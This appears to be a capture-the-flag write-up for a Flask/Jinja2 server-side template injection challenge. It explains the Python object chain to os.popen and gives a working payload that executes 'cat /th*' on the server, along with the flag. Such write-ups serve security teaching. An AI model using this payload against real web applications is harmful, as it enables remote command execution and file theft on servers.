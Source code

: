 * Category
  * SSTI
  * Jinja2
* Solution
  1. It's written in python Flask which means it uses Jinja2 template server
  2. All things in python are object
  3. ```__class__``` -> current class
  4. ```__base__``` -> parent class
  5. ```_subclasses__``` -> ever sub classes of current class
     * 132: ```os._wrap_close```
  6. ```__init__``` -> init method of current class
  7. ```__globals__``` -> this stores in every method that tells you which global variables are available
     * Since we choose ```os._wrap_close``` as our function, the global variables include every all variables in ```os```, which includes ```system```, ```popen```
* Payload
  1. ```{{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat /th*').read()}}```
* Reference
  *  [```os.system()``` and ```os.popen()```](https://www.itread01.com/content/1547128447.html)
* ```FLAG{ssti.__class__.__pwn__}```
